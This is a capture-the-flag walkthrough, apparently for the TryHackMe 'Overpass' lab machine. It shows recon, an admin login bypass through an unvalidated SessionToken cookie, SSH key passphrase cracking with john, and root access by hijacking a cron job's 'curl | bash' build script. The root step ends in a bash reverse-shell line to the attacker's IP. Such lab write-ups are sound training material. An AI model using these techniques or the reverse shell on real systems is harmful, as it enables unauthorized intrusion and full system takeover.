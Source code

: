 ## Recon

### NMAP

![[nmapscan.png]]

- SSH on 22
- HTTP on 80

### HTTP server

![[overpass_landing.png]]

![[overpass_about_us.png]]

![[downloads.png]]

#### Directory scan

![[dir_scan.png]]

##### Admin

Admin page has a login form.

Hint on THM says not to bruteforce, and vector is in OWASP top 10. So either SQL injection or broken authentication.

## User

### SQLMap

SQLmap didnt show any injection points even with level 5 risk 3.

### Authentication it is then...

looking at the source code for the admin site there is a file called `login.js`. It has a function called login().

Contents of `login()`:

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Looks like on a successful login attempt the website sets a cookie with the name of `SessionToken`. Creating a cookie with that name and refreshing the page grants us access to the admin area. (The value of the cookie doesn't matter as the website does not authenticate it properly.)

![[cooooooooookie.png]]

Admin area contains a private RSA SSH key with a handy hint telling us to crack it ourselves.

![[admin.png]]

#### johnny boy

use `ssh2john` to convert ssh key to hash for john:

`python /usr/share/john/ssh2john.py rsa > hash`


`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

![[johnnyboy.png]]

john output says the passphrase for the ssh key is `james13`.

#### SSH

Can now SSH into the machine using the RSA key and passphrase from john.

`ssh -i rsa.txt james@10.10.197.150`

![[user.png]]

flag is in landing directory.

## Root

Nothing interesting in terms of SUID files and cant run any sudo commands due to lack of system password.

Home directory contains a TODO.txt file containing:

```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website**
```

Apparently `Paradox` got automated builds going, probably using a cron job or something similar. We dont have perms to use crontab so will run linpeas to sniff something out.

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

Linpeas flags up a cronjob running as root every minute. Downloading the contents of `overpass.thm/downloads/src/buildscript.sh` and running it with bash. We dont have perms to edit this file to get ourselves a shell, `overpass.thm` should be in `/etc/hosts` though so we can see where it is pointing to.

![[hosts.png]]

localhost... Lets change that to our IP address.

We can then set up a python server containing `downloads/src/buildscript.sh` with our own version of `buildscript.sh`.

`builtscript.sh` contents (reverse shell):

```bash
bash -i >& /dev/tcp/10.11.47.218/4444 0>&1
```

![[python_server.png]]

Then on a listener we set up earlier, we have a root shell!

![[rooty.png]]

## Notes

Possible users:

-	Ninja
-	Pars 
-	Szymex 
-	Bee 
-	MuirlandOracle